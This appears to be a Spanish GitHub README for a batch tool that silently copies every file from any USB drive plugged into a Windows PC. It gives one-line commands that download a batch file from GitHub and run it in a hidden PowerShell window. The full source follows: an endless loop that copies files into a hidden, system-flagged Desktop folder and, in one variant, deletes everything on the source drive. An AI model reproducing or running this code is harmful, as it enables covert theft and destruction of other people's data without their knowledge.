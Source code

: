 # C4C4S.bat / C4C4.bat
<b>Esta es una herramienta para copiar todos los archivos de una memoria externa sin ser detectado.</b><br><br>
Escucha cuando se conecta un dispositivo de almacenamiento, despues copia los archivos del dispositivo conectado y tienes la opción de borrar los archivos despues de ser copiados.

<h2>Para copiar archivos de USB borrando los archivos de la memoria al finalizar, pega esto en una ventana del CMD</h2>
<pre>
powershell (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MANUEL1518/c4c4s/master/c4c4s.bat','c4s.bat'); powershell -windowstyle hidden -command cmd /c call c4s.bat;
</pre>

<h2>Para copiar archivos de USB sin modificar o borrar los archivos origen, pega esto en una ventana del CMD</h2>
<pre>
powershell (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MANUEL1518/c4c4s/master/c4c4.bat','c4.bat'); powershell -windowstyle hidden -command cmd /c call c4.bat;
</pre>

<h3>Para ver los archivos copiados...</h3>
<ul>
  <li>Abre una ventana del CMD.</li>
  <li>Ubicate en la carpeta: <b>C:\Users\%USERNAME%\Desktop\NCopy</b></li>
  <li>Abre la carpeta con: <b>start .</b></li>
</ul>

<h2>Codigo fuente</h2>

<h3>C4s :</h3>
<p><b>(Copia todos los archivos de memoria a "NCopy" en Escritorio y borra los originales)</b></p>
<pre>
@echo off
setlocal EnableDelayedExpansion
:try
IF EXIST "C:\Users\"%USERNAME%"\Desktop\NCopy" (
 SET l="E:\" "F:\" "G:\" "M:\" "N:\" "D:\" "H:\" "I:\" "L:\" "O:\" "S:\" "U:\"
 FOR %%a in (%l%) DO (
  IF EXIST %%a (
   XCOPY %%a "C:\Users\"%USERNAME%"\Desktop\NCopy" /s /i /y /q
   DEL %%a"*" /s /q
  )
 )
) ELSE (
 MKDIR "C:\Users\"%USERNAME%"\Desktop\NCopy"
 ATTRIB "C:\Users\"%USERNAME%"\Desktop\NCopy" +r +h +s
)
goto try
</pre>

<h3>C4 :</h3>
<p><b>(Copia todos los archivos de memoria a "NCopy" en Escritorio sin editar los archivos originales)</b></p>
<pre>
@echo off
setlocal EnableDelayedExpansion
:try
IF EXIST "C:\Users\"%USERNAME%"\Desktop\NCopy" (
 SET l="E:\" "F:\" "G:\" "M:\" "N:\" "D:\" "H:\" "I:\" "L:\" "O:\" "S:\" "U:\"
 FOR %%a in (%l%) DO (
  IF EXIST %%a (
   XCOPY %%a "C:\Users\"%USERNAME%"\Desktop\NCopy" /s /i /y /q
  )
 )
) ELSE (
 MKDIR "C:\Users\"%USERNAME%"\Desktop\NCopy"
 ATTRIB "C:\Users\"%USERNAME%"\Desktop\NCopy" +r +h +s
)
goto try
</pre>
